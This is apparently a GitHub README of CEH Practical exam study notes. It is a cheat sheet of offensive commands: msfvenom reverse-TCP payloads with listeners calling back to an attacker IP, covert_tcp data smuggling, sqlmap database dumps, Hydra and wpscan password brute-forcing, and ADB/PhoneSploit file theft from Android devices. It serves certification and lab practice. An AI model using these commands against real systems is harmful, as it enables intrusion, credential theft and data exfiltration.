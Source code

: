 <img src="CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour proctored exam.  

Just a typical CTF Player/Hacker going back to basics 💻

# Network Hacking
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```

</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
</details>
<details>
  <summary>Wireshark</summary>
  
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  
  ```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="CovertWireshark.jpg" />

</details>
<details>
  <summary>Common Ports</summary>
  
   

* 22        - SSH
* 21        - FTP
* 389,3389  - RDP
* 3306      - MYSQL
</details>
</details>

# Web Hacking
<details>
  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
 
### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

# Android Hacking
<details>
  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py
```
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit
```console
9. Pull Folders from Phone to PC
```
* Enter the Full Path of file to Download
```console
sdcard/Download/secret.txt
```  
</details>

# Password Cracking



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra

### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* FTP Get command
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```  
</details>
  
# Steganography
  <details>
    <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
<img src="Snow.png"/>

</details>
<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "CT.png"/>
  
  * To Encrypt
  
  <img src = "CT5.png"/>
  <img src = "CT6.png"/>
  
  * Use Key 05 
  
  <img src = "CT7.png"/>
  <img src = "CT8.png"/>
  <img src = "CT9.png"/>
  <img src = "CT10.png"/>
  <img src = "CT11.png"/>
  
  * To Decrypt
  
  <img src = "CT12.png"/>
  <img src = "CT13.png"/>
  <img src = "CT14.png"/>
  <img src = "CT15.png"/>
  <img src = "CT16.png"/>
 </details>
  
 <details>
   <summary>HashCalc</summary>
   
   ## HashCalc
    
   * HashCalc Interface.
   <img src = "Hcal1.png"/>

   * Create a text file.
   <img src = "Hcal2.png"/>
   
   * Choose text file.
   <img src = "Hcal3.png"/>
   
   * Hash Value of text file.
   <img src = "Hcal4.png"/>
   
   * Modify the text inside the file. 
   <img src = "Hcal5.png"/>
   
   * Compare the hash, It will vary.
   <img src = "Hcal6.png"/>
   
    
 
  </details>
 
# File Transfer
<details>
  <summary>File Transfer</summary>
  
## File Transfer

### Linux to Windows
* used to send a payload by Apache 
```console
mkdir /var/www/html/share
chmod -R 755 /var/www/html/share
chown -R www-data:www-data /var/www/html/share
cp /root/Desktop/filename /var/www/html/share/
  ```
  * to start and verify
  ```console
  service apache2 start 
  service apache2 status
  ```
  * to Download from Windows
  * Open browser 
  ```shell
  IP_OF_LINUX/share
  ```
### Windows to Linux 
* File system > Network > smb///IP_OF_WINDOWS
</details>


# Resource
<details>
  <summary>Course</summary>

  ## Course
  
* [Penetration Testing Student - PTS ](https://my.ine.com/CyberSecurity/learning-paths/a223968e-3a74-45ed-884d-2d16760b8bbd/penetration-testing-student) from [INE](https://my.ine.com/)
* [Practical Ethical Hacking - PEH ](https://academy.tcm-sec.com/p/practical-ethical-hacking-the-complete-course) from [TCM Security](https://tcm-sec.com/)
* [iLab](https://ilabs.eccouncil.org/ethical-hacking-exercises/) CEH (Practical) Official Lab from [EC-Council](https://www.eccouncil.org/)
* [Youtube free iLab ](https://www.youtube.com/watch?v=9g5gdhoDotg&list=PLWGnVet-gN_kGHSHbWbeI0gtfYx3PnDZO)

</details>
<details>
  <summary>TryHackMe</summary>

## TryHackMe
### Learning Path
* [Pre-Security](https://tryhackme.com/paths) 
* [Jr Penetration Tester](https://tryhackme.com/paths)
* [Complete Beginner](https://tryhackme.com/paths) 
### Rooms
* [Linux](https://tryhackme.com/module/linux-fundamentals)
* [Nmap](https://tryhackme.com/room/furthernmap)
* [SQLMAP](https://tryhackme.com/room/sqlmap)
* [Wireshark](https://tryhackme.com/room/wireshark)
* [Hydra](https://tryhackme.com/room/hydra)
* [DVWA](https://tryhackme.com/room/dvwa)
* [OWASP Top 10](https://tryhackme.com/room/owasptop10)

  
</details>  

<details>
  <summary>Useful Links</summary>
  
## Links
* [hash.com](https://hashes.com/en/decrypt/hash) is a online hash Identifier and Cracker 
</details>

Final Words: Grab a cup of Tea and GRIND!!!

  <img src = "motivation.jpg"/>

